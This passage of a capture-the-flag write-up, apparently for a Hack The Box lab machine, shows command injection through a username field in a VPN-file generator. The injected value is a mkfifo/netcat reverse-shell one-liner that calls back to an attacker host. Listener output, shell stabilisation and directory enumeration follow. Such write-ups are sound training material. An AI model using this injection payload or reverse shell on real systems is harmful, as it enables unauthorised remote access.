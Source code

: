 ## Foothold

### Abusing ovpn script generation

A certificate/vpn file for openvpn. Looking at the openVPN documentations every client must have a different cert/key pair. There is bound to be an script running on OS level that takes our username and generates a file. Let's try for command injection. 

On sending a payload:

```json
{
  "username": ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.30 1234 >/tmp/f"
}
```

We indeed get a shell.

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.221] 49254
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### TTY Upgrades

Let's make this shell a bit more stable.

```bash
$ python3 -c "import pty; pty.spawn('/bin/bash');"
www-data@2million:~/html$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                                                                                                              
┌──(kali㉿vm-kali)-[~/htb/twomillion]
└─$ stty raw -echo; fg 
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
```

### Enumeration

Let's start our enumeration again:

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Aug 18 09:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 18 09:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

